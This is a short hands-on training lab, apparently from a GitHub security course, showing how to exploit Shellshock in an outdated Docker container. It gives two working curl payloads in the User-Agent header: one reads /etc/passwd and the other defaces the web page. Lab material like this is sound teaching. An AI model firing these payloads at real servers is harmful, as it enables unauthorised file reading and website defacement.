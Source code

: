 # **Vulnerable Libraries**

---

> #### Some containers that are often used and available on `DockerHub` are not updated regularly, which results in them having vulnerable packages and libraries. Shellshock(Bashdoor) is one such vulnerability found in older versions of bash that haven't been updated.

### **Lab Image : `Containers`**

---

#### Step 1:

* Run an image that is vulnerable to ShellShock on the provisioned server

```commandline
docker run -d -it -p 8080:80 vulnerables/cve-2014-6271
```

---

#### Step 2:

* Verify that is application is running by accessing it on the browser

```commandline
echo "http://$(serverip):8080"
```

* Exploit the vulnerability and access `/etc/passwd` of the vulnerable container

```commandline
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://$(serverip):8080/cgi-bin/vulnerable
```

* By exploiting ShellShock, deface the website

```commandline
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://$(serverip):8080/cgi-bin/vulnerable
```

* Verify by accessing the application on the browser

```commandline
echo "http://$(serverip):8080"
```

---

#### *Teardown*:

* Stop all containers

```commandline
clean-docker
```

---

### Reading Material/References:
